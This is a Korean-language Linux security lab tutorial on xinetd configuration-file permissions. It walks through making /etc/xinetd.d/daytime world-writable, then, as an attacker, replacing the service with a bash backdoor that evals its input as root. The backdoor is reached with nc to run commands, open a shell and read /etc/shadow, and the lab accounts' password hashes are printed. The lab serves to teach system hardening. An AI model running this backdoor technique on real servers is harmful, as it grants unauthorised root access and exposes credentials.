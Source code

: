 ## /etc/(x)inetd.conf 파일 소유자 및 권한 설정

누구나 `xinetd` 설정 파일을 수정할 수 있으면 어떤 문제가 발생할 수 있는지 알아봅시다.

### 실습 1 : `xinetd` 설정 파일 수정을 통한 간단한 백도어 생성

**[취약한 리눅스 서버 관리자] 취약한 시스템을 만듭시다!**

1. 우선 슈퍼 데몬인 `xinetd`를 설치합니다.
```
cju@wooam:~$ sudo apt install xinetd
```

2. `xinetd.conf` 파일의 접근 권한을 살펴봅시다.
```
cju@wooam:~$ ls -l /etc/xinet.conf
```

3. `xinetd.conf` 파일의 내용도 살펴봅시다. `/etc/xinetd.d` 디렉터리를 포함(`includedir`)하는 것을 확인할 수 있습니다.

```
cju@wooam:~$ cat /etc/xinetd.conf
# Simple configuration file for xinetd
#
# Some defaults, and include /etc/xinetd.d/

defaults
{

# Please note that you need a log_type line to be able to use log_on_success
# and log_on_failure. The default is the following :
# log_type = SYSLOG daemon info

}

includedir /etc/xinetd.d
```

4. `/etc/xinetd.d` 디렉토리를 살펴봅시다.
```
cju@wooam:~$ ls /etc/xinetd.d/
chargen  chargen-udp  daytime  daytime-udp  discard  discard-udp  echo  echo-udp  servers  services  time  time-udp
```

5. `/etc/xinetd.d` 디렉터리 파일 중 하나의 접근 권한을 `-rw-rw-rw-`로 변경합니다. 여기서는 `daytime`의 접근 권한을 변경합니다.
```
cju@wooam:~$ sudo chmod 666 /etc/xinetd.d/daytime
```

**[공격자] `daytime` 서비스 대신 백도어를 올립니다!**

> 공격자가 취약한 리눅스 서버에 일반 사용자 계정으로 접속했다고 가정합니다.

6. `xinetd` 관련 파일의 접근 권한을 살펴봅시다. `/etc/xinetd.d/daytime` 파일을 아무나 수정할 수 있음을 발견합니다.
```
aaa@wooam:~$ ls -l /etc/xinetd.conf /etc/xinetd.d
```

7. 아래와 같이 간단한 백도어를 만듭니다.
```
aaa@wooam:~$ cat hola
#!/bin/bash
read yourcommand
eval $yourcommand
echo "Thanks you for using this backdoor!"
```

8. 만든 백도어 파일에 실행 권한을 부여합니다.
```
aaa@wooam:~$ chmod 755 hola
```

9. `/etc/xinetd.d/daytime` 파일을 아래와 같이 수정합니다. `disable = no`로 수정하고 `type = INTERNAL` 라인은 삭제합니다. 그리고 `server = /home/aaa/hola`를 추가합니다.
```
aaa@wooam:~$ cat /etc/xinetd.d/daytime
# default: off
# description: An internal xinetd service which gets the current system time
# then prints it out in a format like this: "Wed Nov 13 22:30:27 EST 2002".
# This is the tcp version.
service daytime
{
	disable		= no
	id		= daytime-stream
	socket_type	= stream
	protocol	= tcp
	user		= root
	wait		= no
	server		= /home/aaa/hola
}

# This is the udp version.
service daytime
{
	disable		= yes
	type		= INTERNAL
	id		= daytime-dgram
	socket_type	= dgram
	protocol	= udp
	user		= root
	wait		= yes
}

```

10. `xinetd` 서비스가 재시작되었다고 가정합니다.
```
cju@wooam:~$ sudo systemctl restart xinetd
```

**[공격자] `daytime` 백도어를 통해 자유롭게 시스템을 사용합니다!!!**

11. `nc` 명령어를 이용하여 백도어에 접근합니다.
```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
whoami
root
```

12. 셸도 실행 가능합니다!
```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
sh
pwd
/
tail /etc/shadow
saned:*:19411:0:99999:7:::
colord:*:19411:0:99999:7:::
geoclue:*:19411:0:99999:7:::
pulse:*:19411:0:99999:7:::
gnome-initial-setup:*:19411:0:99999:7:::
hplip:*:19411:0:99999:7:::
gdm:*:19411:0:99999:7:::
cju:$y$j9T$yeQ4tioqxJ7oL38.L4j6e/$oAaCPWRn0yIwLOdn5UeYEOXG4ODWzQd/Dqn.e.g1Fu5:19425:0:99999:7:::
aaa:$y$j9T$wk9l0Wr4Y5gUub6/OsP8K1$2hzQYlTlOeX0WfXxUxpfb4dWItOB0c/UrZzoPej8cE8:19439:0:99999:7:::
sshd:*:19439:0:99999:7:::
exit
```